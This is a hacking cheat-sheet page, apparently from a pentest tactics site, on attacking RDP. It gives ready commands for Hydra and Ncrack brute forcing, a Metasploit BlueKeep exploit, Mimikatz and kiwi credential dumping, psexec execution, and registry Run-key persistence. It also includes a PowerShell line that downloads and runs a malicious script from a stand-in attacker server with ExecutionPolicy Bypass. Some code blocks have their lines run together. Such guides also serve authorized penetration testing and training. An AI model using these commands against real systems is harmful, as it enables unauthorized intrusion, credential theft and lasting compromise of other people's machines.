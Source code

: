 # RDP (Remote Desktop Protocol)

**`Default Port: 3389`**

**RDP (Remote Desktop Protocol)** is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. RDP allows remote access to the graphical desktop of a computer and is widely used for remote administration tasks.

RDP operates on a client-server model, where the client initiates a connection to the server to access the desktop environment and applications of the remote machine.

## Connect

### Connect Using Remote Desktop Connection

You can connect to an RDP server using the Remote Desktop Connection utility on Windows or through third-party clients on other operating systems.

```
mstsc /v:<target-ip>:<port>
```

### Connect Using xfreerdp

xfreerdp is an open-source RDP client available for various platforms, including Linux.

```
xfreerdp /v:<target-ip>:<port>
```

## Enumeration

### Identifying an RDP Server

You can use `Nmap` to check if there's an RDP server running on a target host:

```
nmap -p 3389 <target-ip>
```

### Banner Grabbing

You can use `Nmap` to grab the RDP server's banner and find out its version:

```
nmap -p 3389 --script rdp-enum-encryption <target-ip>
```

## Attack Vectors

### Brute Forcing Credentials

Brute-forcing RDP credentials involves attempting various username and password combinations to gain unauthorized access to a system.

Tools like Hydra or Ncrack can be used for this purpose.

#### Brute Forcing with Hydra

```
hydra -t 1 -l <username> -P <password-list> rdp://<target-ip>
```

#### Brute Forcing with Ncrack

```
ncrack -U <username-list> -P <password-list> rdp://<target-ip>
```

### Exploiting Vulnerabilities

#### BlueKeep (CVE-2019-0708)

If the target RDP service is running on a certain version of windows, it might be vulnerable to the `Bluekeep` vulnerability. We can use Metasploit to exploit:

```
msfconsoleuse exploit/windows/rdp/cve_2019_0708_bluekeep_rceset RHOSTS TARGET_IPset LHOST YOUR_IPexploit
```

## Post-Exploitation

### Dumping Credentials

#### Dumping Credentials with Mimikatz

After gaining access, use `Mimikatz` to dump credentials and other critical information from memory.

```
Invoke-Mimikatz -DumpCreds
```

#### Dumping Credentials with Kiwi

Once you have an RDP session, you can use the kiwi extension to dump credentials from the memory:

```
meterpreter > load kiwimeterpreter > creds_all
```

### Remote Code Execution (RCE)

Once access is gained to an RDP server, you can execute arbitrary code on the target system, potentially leading to further compromise or data exfiltration.

```
powershellInvoke-WebRequest -Uri http://attacker-server/malicious-script.ps1 -OutFile C:\temp\malicious-script.ps1C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\temp\malicious-script.ps1
```

Running a remote program on the RDP server:

```
psexec \\target-ip -u username -p password "cmd.exe /c \"C:\path\to\executable.exe\""
```

### Persistence

Establishing persistence on the compromised system allows attackers to maintain access even after the initial compromise is remediated.

Tools like adding registry entries or creating scheduled tasks can be used for persistence on Windows systems.

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v <key-name> /t REG_SZ /d "<malicious-command>" /f
```

**Tags:**

- [Port 3389](https://hackviser.com/tactics/tags/port-3389)